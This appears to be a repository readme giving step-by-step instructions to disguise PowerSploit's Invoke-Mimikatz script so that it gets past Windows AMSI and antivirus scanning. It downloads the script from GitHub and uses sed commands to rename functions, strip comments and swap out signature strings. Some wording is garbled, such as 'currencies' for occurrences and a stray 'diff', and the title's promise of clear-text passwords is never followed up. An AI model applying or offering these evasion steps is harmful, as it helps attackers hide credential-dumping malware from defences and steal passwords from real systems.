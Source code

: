 # AMSI evasion and clear text password to spike the mimikatz hash

### What is this? 
Antivirus evasion activity using set command and ISE sploit module to bypass windows and anti-malware scan and AMSI as well

### How we can do it?  
- Step 1: download Invoke-Mimikatz.ps1 from PowershellMafia:
  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

- Step 2: then substitute all “invoke-Mimikatz” currencies with “invoke-Lsasscraper” inside the invoke-mimikatze.ps1 script:
  ```
  diff sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1
  ```

- Step 3: remove all comments:
  sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1

- Step 4: remove all comment indented
  sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1

- Step 5: replace parameters and strings they can picked up by antivirus engine:
  sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
  sed -i -e 's/ArgumentPtr/0bf/g' Invoke-Mimikatz.ps1
  sed -i -e 's/CallDllMainSC1/0bfSC1/g' Invoke-Mimikatz.ps1
  sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
